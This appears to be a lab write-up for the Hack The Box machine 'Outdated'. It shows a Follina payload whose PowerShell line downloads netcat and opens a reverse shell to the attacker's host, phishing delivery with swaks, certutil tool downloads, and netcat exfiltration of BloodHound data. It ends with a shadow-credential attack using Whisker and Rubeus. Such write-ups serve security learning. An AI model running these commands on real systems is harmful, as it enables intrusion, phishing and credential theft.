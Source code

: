 Double checking how the payload was generated
```bash
curl -s http://10.10.14.43:8000|awk -F '+' '{print $9}'|tr -d "'"|base64 -d
Invoke-WebRequest http://10.10.14.43:9191/nc64.exe -OutFile C:\Windows\Tasks\nc.exe; C:\Windows\Tasks\nc.exe -e cmd.exe 10.10.14.43 9090
```

now the only thing left to do is to deliver the payload  
We'll do that by sending a link to our local webserver hosting the follina payload over email to the itsupport team.
```bash
swaks \
    --from asdf@asdf.htb \
    --to itsupport@outdated.htb \
    --header "Subject: asdfasdfasdfasdf" \
    --server mail.outdated.htb \
    --body 'http://10.10.14.43:8000'
```
couldn't get a callback though, will try again some other day
after trying a third day in a row, I finally got a callback, the only difference with today's payload is, I hosted it myself instead of via the tool and it was servers on port 80 from an index.htlm text file.
I'm pretty sure this didn't have any incidence on it working or not. 
The machine is just utterly unstable.


### BloodHound
uploading sharphound on the box with certutil
```bash
certutil.exe -urlcache -f http://10.10.14.83:8000/SharpHound.exe SharpHound.exe
./SharpHound.exe -c All --zipfilename output.zip
```
exfiltrate the data
```bash
nc64.exe 10.10.14.83 4242 < output.zip
nc -lvnp 4242 > output.zip
```

### Shadow Credential 
Uploading Rubeus and Whisker to the machine to perform the shadow credential attack
I had to build whisker from source on a windows VM, and uploading the dotnet executable on the machine using certutil.exe. 
Yes I got a different ip in the meantime, this box is really unstable, so I change VPN servers often to get to a working one.
Rubeus is already available as a binary in GhostPack
```bash
certutil.exe -urlcache -f http://10.10.14.15:8000/Whisker.exe Whisker.exe
certutil.exe -urlcache -f http://10.10.14.15:8000/Rubeus.exe Rubeus.exe
```
running whisker to add a new cred to sflowers
```bash
Whisker.exe add /target:sflowers
```
whisker then gives the exact syntax for rubeus to pull sflower's TGT.  
which looks like this: 
```bash
Rubeus.exe asktgt /user:sflowers /certificate:<b64> /password:"hlyTBJYNHmGRbKJa" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show


   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

```